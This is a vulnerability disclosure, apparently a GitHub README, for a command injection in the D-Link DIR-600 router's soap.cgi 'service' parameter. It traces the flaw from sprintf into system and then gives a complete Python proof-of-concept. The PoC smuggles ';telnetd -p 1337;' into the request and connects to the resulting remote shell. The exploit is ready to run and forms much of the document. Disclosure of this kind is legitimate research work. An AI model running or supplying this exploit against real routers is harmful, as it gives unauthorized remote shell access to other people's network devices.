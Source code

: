 # D-link DIR-600 cmd injection vulnerability

## Overview
- Vulnarable product: D-Link DIR-600
- Manufacturer's website information: https://www.dlink.com/
- Firmware download address: [https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-600](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-600)

## Affected version
- Hardware version B5
- Firmware version 2.18（the latest firmware of the router）

## Vulnerability Details

This vulnerability is found in function `soapcgi_main`. The function first try to get pointer to the `service` parameter in url and store it in `v19 == v10 + 9`:

![1](img/1.png)
![3](img/2.png)

Then the `service` parameter will be joined into the format string via `sprintf` function and stored in to `byte_436CA0`. `system` function will happily take that as its argument, causing the command injection.

## PoC

Code:

```python
from socket import *
from os import *
from time import *

####### configuration #######
host = '192.168.0.1'
upnp_port = 49152
shell_port = 1337
#############################

request = f"POST /soap.cgi?service=;telnetd -p {shell_port}; HTTP/1.1\r\n".encode()
request += f"Host: {host}:{upnp_port}\r\n".encode()
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 100\r\n"
request += b"SOAPAction: \"urn:schemas-upnp-org:service:serviceType:v#actionName\"\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
print(f"[*] Connecting to {host}:{upnp_port}")
s.connect((gethostbyname(host), upnp_port))
print("[*] Sending payload")
s.send(request)

print("[*] Waiting for the shell to be opened")
sleep(5)
print(f"[*] Connecting to shell on {host}:{shell_port}")
system(f'telnet {host} {shell_port}')
```

PoC effect screenshot:

![1](img/demo.png)

The Proof-of-Concept video is in the demo folder.